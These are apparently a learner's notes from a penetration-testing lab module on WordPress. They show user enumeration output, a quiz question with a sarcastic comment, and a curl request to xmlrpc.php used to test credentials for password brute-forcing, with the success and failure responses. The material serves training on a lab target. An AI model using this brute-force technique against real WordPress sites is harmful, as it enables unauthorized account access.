 ```
    "id": 2,
    "name": "ch4p",
    "url": "",
    "description": "",
    "link": "http://blog.inlanefreight.com/index.php/author/ch4p/",
    <SNIP>
  },
```

----------------
The question in this section is:
From the last cURL command, what user name is assigned to User ID 2? 

? what a stupid question... its literally just asking if we read like 5 lines above...

## Login 

Once we are armed with a list of valid users, we can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the xmlrpc.php page.

If our POST request against xmlrpc.php contains valid credentials, we will receive the following output:

```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

If the credentials are not valid, we will receive a 403 faultCode error.

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
```